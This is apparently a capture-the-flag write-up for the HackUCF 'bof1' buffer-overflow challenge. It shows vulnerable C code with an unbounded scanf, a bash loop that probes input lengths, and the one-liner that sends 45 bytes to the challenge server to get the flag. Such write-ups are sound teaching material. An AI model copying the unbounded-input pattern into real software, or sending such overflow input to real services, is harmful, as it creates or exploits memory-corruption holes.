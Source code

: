 # bof1
**Category:** Pwn
**Points:** 5
**Description:**
Author: kablaa

Pwn that buffer!

`nc ctf.hackucf.org 9000`

> bof1
> bof1.c
> libpwnableharness64.so

**Write-up**
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 32 chars:
```c
void handle_connection(int sock) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
Initial I was typing by hand, but the realised Python could help with this:
```bash
> python -c "print ('A' * 33)" | ./bof1
nope!
```

This has no effect on the program and I decided to try overflowing until the program segmented as this can sometimes guide you as to where the function return address is. I created a script:
```bash
	#!/bin/bash
	for i in {33..100}
	do
	  output=$(python -c "print ('A' * $i)" | ./bof)
	  echo "For $i output is $output"
	done
```

I found that when the script hit 45 (and after), a different message was output:
```bash
> ./overflow.sh
For 33 output is nope!
For 34 output is nope!
For 35 output is nope!
For 36 output is nope!
For 37 output is nope!
For 38 output is nope!
For 39 output is nope!
For 40 output is nope!
For 41 output is nope!
For 42 output is nope!
For 43 output is nope!
For 44 output is nope!
For 45 output is error, contact admin
For 46 output is error, contact admin
For 47 output is error, contact admin
For 48 output is error, contact admin
For 49 output is error, contact admin
For 50 output is error, contact admin
...
```
I realised this was getting into the `win()` function, but didn't understand why it reported an error (the code shows this error is reported when the flag file was missing)
After spending a while thinking there must be more to the solution, eventually I realised it was just that I wasn't running on the server, so now ran:
```bash
> python -c "print('A' * 45)" | nc ctf.hackucf.org 9000
```

This worked, and gave me the flag.
